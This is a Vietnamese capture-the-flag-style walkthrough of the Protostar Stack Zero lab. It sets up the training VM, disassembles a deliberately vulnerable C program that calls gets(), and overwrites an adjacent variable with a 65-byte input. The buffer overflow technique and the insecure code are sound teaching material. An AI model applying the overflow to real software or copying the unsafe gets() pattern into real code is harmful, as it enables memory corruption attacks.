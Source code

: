 ## Stack0
- Challenge: https://exploit.education/protostar/stack-zero/
- Tải virtual machine machine: https://github.com/ExploitEducation/Protostar/releases/download/v2.0.0/exploit-exercises-protostar-2.iso
- Đầu tiên import file iso của protostar vào virtual machine, đăng nhập bằng credentials: `user:user`
- Chạy lệnh `/sbin/ifconfig` để lấy địa chỉ IP và SSH vào
- Nếu gặp lỗi `Unable to negotiate with 192.168.1.15 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss` thì thêm option `-oHostKeyAlgorithms=+ssh-dss`
```
ssh -oHostKeyAlgorithms=+ssh-dss user@192.168.1.15
```
- source code C:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
- Goal là ta phải ghi đè được biến `modified`
- Dùng GDB `disass main`, chạy `set disassembly-flavour intel` để xem syntax intel asm, nó sẽ đỡ hơn syntax AT&T:
```asm 
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave  
0x08048434 <main+64>:   ret    
```
- Đặt break point ở main `(gdb) b main`, rồi run `r`, execution flow sẽ dừng ở địa chỉ `0x080483fd <main+9>`. Gdb sẽ bỏ qua phần stack alignment từ offset `+0` đến `+6`, nếu muốn dừng ngay tại `+0` ta có thể dùng `b *main` (gdb sẽ hiểu là **break tại địa chỉ của main**, thay vì **break tại hàm main**)
- Để ý dòng `0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0`
- Tại đây đang chuyển giá trị 0 vào ô stack `esp+0x5c`, đối chiếu với code C ta có thể thấy đó là dòng `modified = 0;` => `esp+0x5c` là địa chỉ của biến  `modified`
- Trong code C thì nơi ta có thể ghi input vào là tại dòng 11:
```c
gets(buffer);
```
- `gets` là một hàm nguy hiểm, nó sẽ không biến được biến đích rộng bao nhiêu, nó sẽ lấy toàn bộ input đưa vào biến đích, dẫn đến ghi đè vùng nhớ kề bên => buffer overflow
- Ta chỉ có thể ghi đè được các biến nằm phía trên của biến `buffer`, nên ta sẽ phải kiểm tra xem `modified` có nằm ở trên `buffer` không, nhìn vào asm:
```asm 
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
```
- Thấy trước khi gọi đến `gets` thì địa chỉ của `esp+0x1c` được đưa vào thanh ghi `eax`, đoán rằng đây là biến `buffer`, chạy `p ($esp+0x1c) - ($esp+0x5c)` ra kết quả `-64`, thêm với dữ kiện là stack đi từ địa chỉ cao về địa chỉ thấp => `modified` nằm ở địa chỉ cao hơn `buffer`
- Ta cũng biết thêm một điều là biến `modified` và `buffer` cách nhau 64 bytes, nghĩa là nếu ta truyền 64 bytes vào buffer thì byte thứ 65 sẽ được ghi vào `modified` => solved
- Dùng python tạo ra 64 chữ "A", input vào chương trình:
```
$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" | ./stack0
Try again?
$ 
```
- Lần này tạo 65 chữ "A":
```
$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" | ./stack0
you have changed the 'modified' variable
$ 
```
